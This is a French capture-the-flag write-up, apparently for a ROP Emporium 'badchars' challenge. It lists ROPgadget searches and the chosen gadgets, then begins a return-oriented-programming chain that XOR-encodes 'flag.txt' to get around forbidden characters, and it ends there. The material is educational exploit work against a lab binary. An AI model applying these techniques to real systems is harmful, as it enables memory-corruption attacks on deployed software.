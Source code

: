     20  0x00000f00    0x4 0x08049f00    0x4 -rw- .fini_array
    21  0x00000f04   0xf8 0x08049f04   0xf8 -rw- .dynamic
    22  0x00000ffc    0x4 0x08049ffc    0x4 -rw- .got
    23  0x00001000   0x18 0x0804a000   0x18 -rw- .got.plt
    24  0x00001018    0x8 0x0804a018    0x8 -rw- .data
    25  0x00001020    0x0 0x0804a020    0x4 -rw- .bss
    26  0x00001020   0x29 0x00000000   0x29 ---- .comment
    27  0x0000104c  0x440 0x00000000  0x440 ---- .symtab
    28  0x0000148c  0x213 0x00000000  0x213 ---- .strtab
    29  0x0000169f  0x105 0x00000000  0x105 ---- .shstrtab

### Recherches de gadgets

    05_badchars# ROPgadget --binary badchars32 --depth 4 |grep "mov.*\["
    0x0804854f : mov dword ptr [edi], esi ; ret
    0x08048423 : mov ebx, dword ptr [esp] ; ret

    05_badchars# ROPgadget --binary badchars32 --depth 4 |grep xor
    0x08048547 : xor byte ptr [ebp], bl ; ret

    05_badchars# ROPgadget --binary badchars32 --depth 4 |grep "pop ebx"
    0x0804839b : les ecx, ptr [eax] ; pop ebx ; ret
    0x0804839d : pop ebx ; ret

    05_badchars# ROPgadget --binary badchars32 --depth 4 |grep "pop ebp"
    0x08048501 : mov ebp, esp ; pop ebp ; jmp 0x8048490
    0x08048503 : pop ebp ; jmp 0x8048490
    0x080485bb : pop ebp ; ret
    0x080485ba : pop edi ; pop ebp ; ret
    0x080485b9 : pop esi ; pop edi ; pop ebp ; ret


On retient :

- Pour charger une mot

  0x0804854f : mov dword ptr [edi], esi ; ret

- Pour alterer un byte

  0x08048547 : xor byte ptr [ebp], bl ; ret

- Pour charger `bl`

  0x0804839d : pop ebx ; ret

- Pour charger `ebp` et `edi` et `esi`

  0x080485b9 : pop esi ; pop edi ; pop ebp ; ret

- Pour charger : `ebp` tout seul

  0x080485bb : pop ebp ; ret

### Construction de la chaine de rop

Préalablement on calcule la chaine "flag.txt" avec les caractères interdits xoré avec le masque 3 ce qui donne "flbd-t{t".
